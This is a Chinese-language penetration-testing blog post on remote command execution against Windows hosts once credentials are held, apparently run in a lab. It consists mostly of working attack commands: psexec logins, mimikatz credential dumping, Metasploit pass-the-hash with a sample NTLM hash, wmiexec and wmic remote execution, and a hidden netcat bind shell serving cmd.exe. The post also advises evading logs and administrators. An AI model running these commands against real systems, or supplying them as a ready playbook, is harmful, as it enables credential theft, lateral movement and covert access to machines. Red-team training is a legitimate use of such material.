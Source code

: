 ```yaml
---
title: Windows远程执行命令
copyright: true
date: 2020-01-23 14:21:17
categories: 内网渗透
tags:
  - Windows
  - 远程命令执行
  - 内网渗透
---
```


<blockquote class="blockquote-center">只愿君心似我心，定不负相思意</blockquote>

　　当我们已经获取了远程系统的凭证（明文密码或 hash）时，可以直接通过3389远程登录进去收集信息、进行下一步的渗透，但是这样做的话会在系统上留下我们的操作记录，而且有可能邂逅管理员。大部分情况下，一个cmdshell 已经可以满足我们继续渗透的需求，所以不到万不得已的时候最好不要远程桌面连接(mstsc)，而是通过远程执行命令的方式继续开展工作。

<!-- more -->

### psexec.exe远程执行命令

```
psexec \\192.168.30.128 -u Administrator -p 123456789 cmd.exe
```

![](https://img-blog.csdnimg.cn/20200121181236736.jpeg?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1pfWl9XXw==,size_16,color_FFFFFF,t_70)

这里一开始登陆的是另一个管理员账号，但是一直被拒绝访问，后来把Administrator账号取消隐藏，一下就连接上。之后看到一篇文章也有一样的情况，只有Administrator账号才能连接，就算是管理员用户组的其他用户也不能连接，UAC的问题。

### 使用Hash登陆Windows

```
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords full" "exit"
```

![](https://img-blog.csdnimg.cn/20200121181256861.jpeg?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1pfWl9XXw==,size_16,color_FFFFFF,t_70)

或者使用wce抓取hash值：

![](https://img-blog.csdnimg.cn/20200121181302526.jpeg?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1pfWl9XXw==,size_16,color_FFFFFF,t_70)

msf调用payload：

```
use exploit/windows/smb/psexec
show options
set RHOST 192.168.30.128
Set SMBPass 0182BD0BD4444BF867CD839BF040D93B:C22B315C040AE6E0EFEE3518D830362B
set SMBUser Administrator
show options
Run
```

![](https://img-blog.csdnimg.cn/20200121181313817.jpeg?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1pfWl9XXw==,size_16,color_FFFFFF,t_70)

### 利用wmiexec工具配合进行反弹半交互shell

```
cscript.exe //nologo wmiexec.vbs /shell 192.168.30.128 Administrator 123456789
```

![](https://img-blog.csdnimg.cn/2020012118132951.jpeg?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1pfWl9XXw==,size_16,color_FFFFFF,t_70)

还可以单条命令执行

![](https://img-blog.csdnimg.cn/20200121181349926.jpeg?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1pfWl9XXw==,size_16,color_FFFFFF,t_70)

### WMI执行命令方式，无回显

```
wmic /node:192.168.30.128 /user:Administrator /password:123456789  process call create "cmd.exe /c ipconfig>c:\result.txt"
```

![](https://img-blog.csdnimg.cn/2020012118140386.jpeg?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1pfWl9XXw==,size_16,color_FFFFFF,t_70)

执行成功后可以在被控制的机器里面找到执行结果的文件

![](https://img-blog.csdnimg.cn/20200121181405240.jpeg?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1pfWl9XXw==,size_16,color_FFFFFF,t_70)

### nc远程执行

先在被控机器上开启监听，-L：让监听者在连接多次掉线时仍坚持监听，-d：让nc隐藏运行，-e：指定要运行的程序，-p：监听的端口

```
nc.exe -L -d -e cmd.exe -p 5555
```

![](https://img-blog.csdnimg.cn/20200121181415362.jpeg?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1pfWl9XXw==,size_16,color_FFFFFF,t_70)

```
控制端运行nc64.exe 192.168.30.128 5555
```

![](https://img-blog.csdnimg.cn/20200121181428164.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1pfWl9XXw==,size_16,color_FFFFFF,t_70)